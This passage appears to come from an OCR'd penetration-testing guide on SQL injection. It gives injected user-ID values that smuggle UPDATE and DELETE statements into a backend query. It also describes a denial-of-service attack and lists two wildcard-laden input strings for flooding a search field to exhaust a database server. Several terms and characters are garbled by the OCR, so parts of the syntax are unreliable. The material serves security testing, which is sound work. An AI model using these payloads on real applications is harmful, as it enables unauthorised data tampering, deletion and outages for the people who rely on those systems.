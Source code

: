 **Update**:

Use the following syntax to update the data present in a database table.

*Userid: Peter'; UPDATE [Table Name] SET [Column Name]=[value] WHERE userid='peter*

**Query formation at backend:**

SELECT * FROM salaries WHERE userid = 'peter'; UPDATE [Table Name] SET [Column Name]=[value] WHERE userid=‘peter' ;



**Delete:**

Use the following syntax to delete the data from a database table.

*Userid: ';DELETE FROM [Table Name] WHERE [Column Name]= 'peter*

**Query formation at backend:**

SELECT * FROM salaries WHERE userid = 'peter'; DELETE FROM [Table Name] WHERE userid=‘peter’ ;

### Attempt a DoS Attack using SQL Injection
- Try to make the target web application's database unavailable to normal users
- Create and send very complex queries to make the database server take more time than required. This will exhaust the database server and render it unavailable to normal users
- Craft SAL queries using Joins, Uke , compress, encode to create complex queries
- Usually, a databases supports **wildcards** characters, such as “**%"," [J""I*I" and "_"** in Search field functionality of the web application

The DoS attack using the SQLi would force the target database to take more time to execute complex SQL queries. Penetration testers must test the vulnerability of databases against the DOS attack performed using a SQL injection attack. They can do this by making the target web application’s database unavailable to normal users.

To perform this test, you must create and send very complex queries to the database server to make it take more time than required. This will exhaust the database server and render it unavailable to normal users.

Usually, a databases supports wildcards characters, such as “%”,” []”,"[4],” and “_” in Search field functionality of the web application. Craft SQL queries using Joins, Like, compress, encode to create complex queries. Use wildcards characters in the queries to expand their size to increase the time taken for processing.

Enter following inputs in the search field or in the URL of the application to increase query
execution time.

- **Input 1**:

  ```
  _[^|?$%"*[(Z*m1_=]-%RT$) | [{34}\?_]||%TY-3(*.>?_!]_
  ```

  

- **Input 2**:

  ```
  _[^*!_%/%a?F%_D)_(F%)_%([) ({}%) { () }ESEN%_) $*£() $*R"_) ] [%] (%[x]) %a] [
  $*"£$-9]_
  ```
